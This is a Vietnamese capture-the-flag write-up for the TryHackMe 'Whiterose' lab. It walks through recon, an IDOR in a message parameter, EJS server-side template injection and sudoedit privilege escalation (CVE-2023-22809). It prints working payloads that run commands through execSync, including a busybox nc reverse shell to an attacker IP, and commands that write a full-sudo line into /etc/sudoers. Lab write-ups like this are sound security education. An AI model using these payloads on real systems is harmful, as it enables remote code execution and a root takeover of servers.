<div align="center">
    <h1>🌹 TryHackMe Whiterose Writeup 🌹</h1>
</div>


<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>

## 🚀1. Khởi động taget


## 🔍2. Recon
```
nmap -sC -sV 10.10.178.31 
```


- Sử dụng nmap quét cổng, thấy 2 cổng mở là `22` và `80`
    - Cổng `22` mở cho dịch vụ `SSH`
    - Cổng `80` chạy máy chủ web ` nginx 1.14.0 (Ubuntu)` qua http
- Truy cập vào địa chỉ ip trang web bằng trình duyệt, thấy được chuyển hướng sang `cyprusbank.thm`.


- Thêm tên miền này vào `etc/hosts` với địa chỉ ip mục tiêu, sau đó truy cập lại.


- Sử dụng `gobuster` quét thư mục ẩn, tuy vậy có vẻ không có kết quả.

```
gobuster dir -u http://cyprusbank.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```


- Sử dụng `ffuf` để quét subdomain.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302
```


- Tìm được 2 subdomain là `www` và `admin`, truy cập thử vào 2 subdomain này (Lưu ý, thêm vào `etc/hosts` trước khi truy cập).

- Truy cập `http://admin.cyprusbank.thm/` trả về một `login page`


- Sử dụng thông tin được gợi ý để đăng nhập `Olivia Cortez:olivi8`
- Đăng nhập thành công, truy cập được vào một số tài nguyên của trang web, trong đó một số bị hạn chế.


## 🔑3. Truy cập trang web
- Thử tìm kiếm tên `Tyrell Wellick`, tuy nhiên, tài khoản hiện tại có vẻ chỉ xem được thông tin `Balance` mà không xem được số điện thoại.


- Kiểm tra một lượt trang web, tại page `messages` với đường dẫn `http://admin.cyprusbank.thm/messages/?c=5` có chứa tham số `c=5` - dấu hiệu có thể bị `IDOR`


- Thử giá trị của `c` với các số khác nhau. tại `c=9`, phát hiện thông tin mật khẩu của tài khoản `Gayle Bev`


- Đăng nhập vào trang Web bằng tài khoản này, thành công lấy được số điện thoại của `Tyrell Wellick`


- Submit thành công answer 1


## 📄4. Truy cập web shell

- Tiếp tục đăng nhập với tài khoản `Gayle Bev`, truy cập được page `Customer Settings` cho phép cập nhật mật khẩu của tài khoản nhân viên.



- Thử sử dụng `Burp Suite` bắt và kiểm tra payload khi thực hiện cập nhật mật khẩu.



- Mật khẩu sau khi cập nhật được hiển thị lại ở response, có thể dẫn tới `XSS`. Tuy vậy nhập thử một số payload XSS thì không thu được kết quả.
- Xóa thử trường `password`, kiểm tra response nhận được thông báo lỗi.



- Có vẻ lỗi này có liên quan đến template engine `EJS`, có thể dẫn đến `SSTI - Server-Side Template Injection` trong `NoteJs`. Tìm kiếm thêm thông tin, tìm được một số bài viết liên quan: [EJS, Server side template injection ejs@3.1.9](https://github.com/mde/ejs/issues/720)

- Có vẻ lỗi này xuất hiện khi sử dụng biến trong template `EJS` mà không kiểm tra nó tồn tại, thì EJS sẽ ném lỗi `ReferenceError` nếu biến đó không được định nghĩa trong `render()`.
- Ở đây `password` không được truyền vào trong `res.render('template', { ... })` nên nó gây ra lỗi `ReferenceError: password is not defined`
- Dựa vào POC tìm được, ta có payload sau:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.21.175.20');//
```
- Trong đó:
    - Web server nhận trực tiếp tham số `settings[view options][...]` từ query hoặc body 
    - Web server không lọc hoặc validate các trường `settings[...]`, nên bạn inject thẳng vào cấu hình của `EJS`.
    - Lợi dụng việc ghi đè cấu hình để kết thúc đoạn EJS template sớm và chèn mã JavaScript tùy ý thông qua đoạn `process.mainModule.require('child_process').execSync(...)`
- Tạo python server và chèn thử payload trên vào request xem nó có chạy thành công không 




- Có vẻ payload thực thi thành công, tiến hành tạo `reverse shell`

- Tạo shell trên revshells.com



- Ta được payload:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.175.20 1234 -e /bin/sh');//
```
- Chèn payload thông qua `Burp Suite`, listen port: `nc -lvnp 1234`





- Sau khi nhận `reverse shell` thành công, update shell cho dễ nhìn:



- Tìm kiếm web flag, tìm được trong file `/home/web/user.txt`





## ⚠️5. Leo quyền lên root shell
- Kiểm tra những quyền có thể chạy với sudo qua lệnh `sudo -l`



- Có thể thấy ta có quyền chạy `sudoedit` với quyền sudo

- Tìm kiếm xem có lỗ hổng nào có thể khai thác với quyền này không 



- `CVE-2023-22809` cho phép leo thang đặc quyền với `sudo 1.8.0 đến 1.9.12p1`


- Kiểm tra phiên bản sudo của máy chủ:



-> Phiên bản phù hợp, có thể khai thác.
- Sử dụng lệnh:
```
export EDITOR="vi -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- Trong đó:
    - Biến môi trường `EDITOR` được `sudoedit` sử dụng để xác định trình soạn thảo văn bản
    - `vi -- /etc/sudoers` là cú pháp lợi dụng để ép vi mở file `/etc/sudoers` thay vì file hợp lệ được chỉ định.
    - Mục đích là đánh lừa `sudoedit` mở file tùy ý (`/etc/sudoers`) dù người dùng chỉ được cấp quyền chỉnh sửa `/etc/nginx/sites-available/admin.cyprusbank.thm.`
- Sau khi thành công mở file `/etc/sudoers` bằng `vi`, chèn thêm dòng `web ALL=(ALL:ALL) ALL` với mục đích cho user `web` có toàn quyền `sudo`



- Sau khi chèn thành công, `sudo su` để vào quyền root



- Chiếm quyền `root` thành công, tìm flag trong `/root/root.txt`




=> Hoàn thành Lab :) 🔥🔥🔥




